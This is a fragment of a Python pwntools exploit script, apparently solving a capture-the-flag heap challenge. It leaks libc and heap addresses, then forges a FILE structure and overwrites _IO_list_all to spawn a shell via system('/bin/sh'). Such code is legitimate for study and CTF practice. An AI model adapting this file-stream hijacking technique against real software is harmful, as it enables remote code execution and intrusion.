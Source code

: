 ```py
    add_page (p, b'64', b'A' * 8)
    view_page (p, b'2')
    p.recvuntil (b'Content :\n' + b'A' * 8)
    leak_libc = u64 (p.recv (6) + 2 * b'\x00')
    libc.address = leak_libc - libc.symbols['main_arena'] - 1640
    print ("The address of leak from libc is: ", hex (leak_libc))
    print ("The address of libc is: ", hex (libc.address))

    leak_heap = info (p, b'0', b'', b'A' * 64)
    print ("The address of heap is: ", hex (leak_heap - 0x10))

    for i in range (5):
        add_page (p, b'24', 24 * b'A')
    edit_page (p, b'0', b'\x00')
    add_page (p, b'24', b'asdf')


    payload = b'A' * 16 + p64 (libc.symbols["system"]) + p64 (libc.symbols['system']) + p64 (0) * 3
    payload = payload.ljust (0x120, b'A')
    payload += b'/bin/sh\x00' + p64 (0x61) + p64 (0) + p64 (libc.symbols['_IO_list_all'] - 0x10)
    payload += p64 (2) + p64 (3) ## write_base and write_ptr
    payload += 0x90 * b'A' # the rest
    payload += p32 (0) # _mode
    payload += b"A" * 0x14 # char unused[20]
    payload += p64 (leak_heap) # v_table

    edit_page (p, b'0', payload)
    edit_page (p, b'0', b'\x00')
    p.sendafter (b'Your choice :', b'1')
    p.sendafter (b'Size of page :', b'10')

    p.interactive()


if __name__ == "__main__":
    main()
```



